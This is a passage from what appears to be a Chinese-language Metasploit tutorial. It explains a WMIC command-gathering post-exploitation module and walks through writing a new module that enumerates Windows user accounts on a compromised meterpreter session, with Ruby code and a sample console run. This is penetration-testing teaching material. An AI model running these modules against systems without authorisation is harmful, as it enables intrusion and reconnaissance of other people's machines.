    cmd = datastore['COMMAND']
    result = wmic_query(cmd)
```


```
store_wmic_loot(result, cmd)
end
end

def store_wmic_loot(result_text, cmd)
    command_log = store_loot("host.command.wmic",
                            "text/plain",
                            session,
                            result_text,
                            "#{cmd.gsub(/\.|\||\s/, "_")}.txt",
                            "Command Output \\ 'wmic #{cmd.chomp}\\'")
    print_status("Command output saved to: #{command_log}")
end
end
```

现在我们已经建立了一些关于模块构建的基础知识，下一步将是分析该模块。强烈建议你在学习并深入了解模块和平台开发时查看现有模块。

## How it works...

让我们从对主脚本体的分析开始，以了解其工作原理：

- 1. 模块首先验证是否提供了资源文件。如果提供了，它将对每一行运行 WMIC 查询并存储结果：
```
if datastore['RESOURCE']
  if ::File.exist?(datastore['RESOURCE'])
    ::File.open(datastore['RESOURCE']).each_line
    do |cmd|
      next if cmd.strip.length < 1
      next if cmd[0,1] == "#"
      print_status "Running command #{cmd.chomp}"
      result = wmic_query(cmd.chomp)
      store_wmic_loot(result, cmd)
    end
  else
    raise "Resource File does not exists!"
  end
```
- 2. 否则，它将检查 wmic 命令，运行它并存储结果：
```
elsif datastore['COMMAND']
    cmd = datastore['COMMAND']
    result = wmic_query(cmd)
    store_wmic_loot(result, cmd)
end
end
```

## Writing a post-exploitation module

现在，我们已经涵盖了足够关于构建模块的背景知识。在本教程中，我们将看到如何构建自己的模块并将其添加到框架中的示例。构建模块非常方便，因为它们将使我们能够根据需要扩展框架。

## Getting ready

让我们构建一个小型后利用模块，使用 WMIC 枚举目标上的所有用户。由于这是一个后利用模块，我们需要一个已被攻陷的目标才能执行该模块：
```
class MetasploitModule < Msf::Post
  include Msf::Post::Windows::WMIC
```
脚本启动时使用扩展 Msf::Post 模块属性的类，以及包含语句以包含 WMIC 功能。

接下来，我们将定义模块的名称、描述、作者、平台和会话类型：
```
def initialize(info={})
  super( update_info( info,
    'Name' => 'Windows WMIC User Gather',
    'Description' => %q{
      This module will enumerate user accounts
      using WMIC.
    },
    'License' => MSF_LICENSE,
    'Author' => [
      'Daniel Teixeira <danieljc.teixeira [at]gmail.com>',
    ],
```
```
'Platform' => [ 'win' ],
'SessionTypes' => [ 'meterpreter' ]
))
end
```

对于 run 方法，我们将使用 wmic_query 来枚举用户账户：
```
# Main method

def run
  print_status("Executing command")
  command = wmic_query("useraccount get name")
  puts command
end
end
```

Metasploit 遵循从通用到专门的层次结构来存储模块。它首先是模块的类型，例如 exploit 模块或 auxiliary 模块。然后它采用一个通用名称，例如受影响操作系统的名称。接下来，它创建更专门的功能；例如，模块用于浏览器。最后，使用最具体的命名，例如模块所针对的浏览器的名称。

让我们考虑我们的模块。该模块是一个后利用模块，用于枚举 Windows 操作系统并收集有关系统的信息。因此，我们的模块应遵循此约定来存储信息。

我们的目标文件夹应为 modules/post/windows/gather/。你可以用所需的名称保存模块，并使用 .rb 扩展名。让我们将其保存为 wmic_user_enum.rb。

## How to do it...

一旦我们将模块保存在其首选目录中，下一步将是执行它并查看是否正常工作。我们已经在之前的教程中看到了模块执行的流程：
```
msf exploit(psexec) > use post/windows/gather/
wmic_user_enum
msf post(wmic_user_enum) > set SESSION 1
SESSION => 1
msf post(wmic_user_enum) > run

[*] Executing command
Name
Administrator
anakin_skywalker
...

[*] Post module execution completed
msf post(wmic_user_enum) >
```

这是一个小型示例，说明如何构建并将自己的模块添加到框架中。如果你想构建良好的模块，你 definitely 需要扎实的 Ruby 脚本知识。你也可以通过发布你的模块为 Metasploit 社区做出贡献，让其他人受益。
